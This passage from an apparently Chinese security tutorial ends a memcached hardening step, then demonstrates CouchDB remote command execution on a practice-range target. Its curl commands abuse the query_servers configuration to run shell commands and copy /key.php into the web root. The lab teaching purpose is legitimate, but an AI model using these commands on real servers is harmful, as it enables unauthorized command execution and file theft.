 方案三： 配置memcached监听本地回环地址127.0.0.1。
```
[root@local ~]# vim /etc/sysconfig/memcached
OPTIONS="-l 127.0.0.1"  #设置本地为监听 
[root@local ~]# /etc/init.d/memcached restart #重启服务
```

## CouchDB
###    【漏洞简介】
###    【攻击演示】
靶场地址：[https://www.mozhe.cn/bug/detail/NU5HQ1huUTNWSmdMMEI0U3pEVHF2dz09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/NU5HQ1huUTNWSmdMMEI0U3pEVHF2dz09bW96aGUmozhe)

[ 方案一：读取某个文件 ]

所使用的命令：
```
http://219.153.49.228:48700
curl -X PUT 'http://219.153.49.228:48700/_config/query_servers/cmd' -d '"/bin/ls >/var/www/html/list"'

curl -X PUT 'http://219.153.49.228:48700/vultest/'

curl -X PUT 'http://219.153.49.228:48700/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

curl -X POST 'http://219.153.49.228:48700/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Cont
```
ent-type: application/json'


![图片](https://uploader.shimo.im/f/aDLfeq2crYw4w6wg.png!thumbnail)
![图片](https://uploader.shimo.im/f/wh3LnV6w4hU5XQYO.png!thumbnail)
![图片](https://uploader.shimo.im/f/PffH1xN8JQw4Ef24.png!thumbnail)
![图片](https://uploader.shimo.im/f/hyBj3M3rs4gi15t0.png!thumbnail)

之后到WEB端口查看我们刚才写入的数据：list

![图片](https://uploader.shimo.im/f/cJ4m3eRZB18WJZ3X.png!thumbnail)
要读取里面的文件（key.php）的内容：

```
curl -X PUT 'http://219.153.49.228:48700/_config/query_servers/cmd' -d '"/bin/cat /key.php >/var/www/html/keys"'

curl -X PUT 'http://219.153.49.228:48700/vultest1/'

curl -X PUT 'http://219.153.49.228:48700/vultest1/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

curl -X POST 'http://219.153.49.228:48700/vultest1/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-type: application/json'
```
